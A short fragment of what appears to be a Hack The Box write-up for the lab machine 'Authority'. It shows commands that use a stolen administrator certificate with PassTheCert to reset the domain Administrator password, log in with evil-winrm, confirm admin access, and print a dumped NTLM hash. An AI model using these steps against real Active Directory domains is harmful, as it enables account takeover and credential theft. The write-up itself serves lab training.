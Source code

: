 ```log
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"
```

https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
https://github.com/AlmondOffSec/PassTheCert/tree/main/Python
```bash
python3 ./passthecert.py -domain 'authority.htb' -dc-host 'authority.htb' -crt ./administrator_authority.crt -key ./administrator_authority.key -action 'modify_user' -target 'Administrator' -new-pass 'P@s$w0rd!' 
```

```bash
evil-winrm -i 'authority.htb' -u 'administrator' -p 'P@s$w0rd!'
```

```log
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
authority
```

___

```log
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a15217bb5af3046c87b5bb6afa7b193e
```
